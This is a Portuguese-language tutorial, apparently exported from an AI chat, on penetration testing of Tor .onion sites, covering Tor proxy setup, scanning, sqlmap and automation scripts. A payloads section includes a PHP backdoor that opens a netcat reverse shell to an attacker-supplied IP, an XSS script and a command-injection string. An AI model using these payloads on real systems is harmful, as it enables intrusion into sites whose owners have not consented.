

# Pentest Completo em Sites .onion (Rede Tor)

## 📋 Índice

1. [Configuração do Ambiente Tor](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#1-configura%C3%A7%C3%A3o-do-ambiente-tor)
2. [Reconhecimento (.onion Recon)](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#2-reconhecimento-onion-recon)
3. [Ferramentas Configuradas para Tor](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#3-ferramentas-configuradas-para-tor)
4. [Workflow de Pentest Completo](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#4-workflow-de-pentest-completo)
5. [Script de Automatização](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#5-script-de-automatiza%C3%A7%C3%A3o)
6. [Desafios e Soluções](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#6-desafios-e-solu%C3%A7%C3%B5es)
7. [Payloads Adaptados](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#7-payloads-adaptados)
8. [Dicas Avançadas](https://hackerai.co/c/97e0b5f2-0846-4c89-9443-740fc4d88da7#8-dicas-avan%C3%A7adas)

---

## 1. Configuração do Ambiente Tor

### 🔧 Instalação e Configuração Básica

```bash
# Kali Linux já tem tor instalado
sudo systemctl start tor
sudo systemctl enable tor

# Verificar status
tor --version
ss -tulpn | grep tor
```

### ⚙️ Configuração Proxy (`/etc/tor/torrc`)

```
SocksPort 9050
ControlPort 9051
HashedControlPassword 16:872860B76453A77D60CA2BB8C1A7042072093276A3D701AD684053EC4C
```

### 🧪 Teste de Conectividade

```bash
# Teste básico Tor
curl --socks5-hostname 127.0.0.1:9050 http://check.torproject.org/api/ip

# Verificar se está na Tor
torsocks curl https://check.torproject.org
```

---

## 2. Reconhecimento (.onion Recon)

### 🔍 Enumeração Básica

```bash
# Headers do serviço
curl --socks5-hostname 127.0.0.1:9050 -I "http://exampleonion123456.onion"

# Nmap através do Tor (lento)
torsocks nmap -sT --top-ports 100 -Pn exampleonion123456.onion

# Scan completo (paciente)
torsocks nmap -sS -p- --max-retries 1 exampleonion123456.onion
```

### 🛠️ Ferramentas Específicas .onion

```bash
# OnionScan - Análise completa onion services
git clone https://github.com/s-rah/onionscan.git
cd onionscan && go build
./onionscan -timeout 30s exampleonion123456.onion

# Ahmia API - Buscar .onion relacionados
curl "https://ahmia.fi/search/?q=exampleonion"
```

---

## 3. Ferramentas Configuradas para Tor

### 🕷️ Burp Suite + Tor

```
1. Proxy > Options > Add: 127.0.0.1:9050 (SOCKS)
2. User Options > Connections > Upstream Proxy: SOCKS 127.0.0.1:9050
3. Teste interceptando .onion requests
```

### ⚡ OWASP ZAP + Tor

```
Tools > Options > Connections > Use Proxy Chain
127.0.0.1:9050 SOCKS v5
```

### 💉 Sqlmap com Tor

```bash
sqlmap -u "http://exampleonion123456.onion/login.php" \
  --tor --tor-type=SOCKS5 --tor-port=9050 \
  --random-agent --level=3 --risk=2 \
  --batch --threads=1  # Threads=1 (lentidão Tor)
```

---

## 4. Workflow de Pentest Completo



### 🔧 Comandos Práticos

```bash
# 1. Gobuster Directory
torsocks gobuster dir -u http://target.onion -w /usr/share/wordlists/dirb/common.txt -t 10

# 2. Nikto
torsocks nikto -h http://target.onion -Tuning x -useragent "Mozilla/5.0..."

# 3. Nuclei
nuclei -u http://target.onion -tor -c 5 -rl 60

# 4. Metasploit
msfconsole
use auxiliary/scanner/http/dir_listing
set RHOSTS target.onion
set TOR_HOST 127.0.0.1
set TOR_PORT 9050
run
```

---

## 5. Script de Automatização (`onion-pentest.sh`)

```bash
#!/bin/bash
TARGET=$1
OUTPUT_DIR="onion_pentest_$(date +%Y%m%d_%H%M%S)"

mkdir -p $OUTPUT_DIR

echo "[+] Iniciando pentest em $TARGET"
echo "[+] Output: $OUTPUT_DIR"

# 1. Verificar serviço
torsocks curl -s -m 30 "$TARGET" > "$OUTPUT_DIR/home.html" && \
echo "✅ Site ativo" || echo "❌ Site offline"

# 2. Directory brute-force
torsocks gobuster dir -u "http://$TARGET" \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -t 5 -x php,html,txt --timeout 60 > "$OUTPUT_DIR/gobuster.txt"

# 3. Nikto
torsocks nikto -h "http://$TARGET" -o "$OUTPUT_DIR/nikto.txt" -Format txt

# 4. Nuclei
nuclei -u "http://$TARGET" -tor -severity critical,high -o "$OUTPUT_DIR/nuclei.txt"

echo "✅ Pentest completo. Resultados em: $OUTPUT_DIR"
```

Uso: `chmod +x onion-pentest.sh && ./onion-pentest.sh target.onion`

---

## 6. Desafios Específicos e Soluções

|🚨 Problema|🛠️ Solução|
|---|---|
|Lentidão extrema|`--timeout 60`, `-t 5`, `threads=1`|
|Rate limiting|`--delay 2`, `--random-agent`|
|Fingerprinting Tor|`torsocks`, user-agents rotativos|
|HTTPS inválido|`curl -k`, ignore SSL errors|
|WebSocket falha|`socat` tunnel + Tor proxy|

Performance esperada: 10-50s por request. Planeje 24-48h para scans completos.

---
## 7. Payloads Adaptados para .onion

### 🐚 Reverse Shell PHP

```php
<?php
// http://target.onion/backdoor.php
system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc SEU_IP_CLEARNET 443 >/tmp/f &');
?>
```

### 🕷️ XSS Detector Tor

```html
<script>
fetch('http://httpbin.org/ip').then(r=>r.json()).then(d=>{
  alert('Tor: ' + (d.origin.includes('tor') ? '✅' : '❌') + d.origin);
});
</script>
```

### 🔑 Command Injection Test

```
'; curl --socks5 127.0.0.1:9050 http://httpbin.org/ip # 
```

---

## 8. Dicas Avançadas 💡

### 🌐 Multiple Tor Instances (Paralelismo)

```bash
# Instância 1
tor --SocksPort 9100 --ControlPort 9101 --DataDirectory /var/lib/tor1 &

# Instância 2  
tor --SocksPort 9102 --ControlPort 9103 --DataDirectory /var/lib/tor2 &

# Rotacionar proxies
proxychains -q -f proxychains-tor1.conf curl http://target.onion
```

### ⚡ Proxychains Config (`/etc/proxychains.conf`)

```
socks5 127.0.0.1 9050
socks5 127.0.0.1 9100
socks5 127.0.0.1 9102
```

### 📊 Monitoramento de Performance

```bash
# Ver circuitos Tor ativos
torsocks stem -t 127.0.0.1 9051
```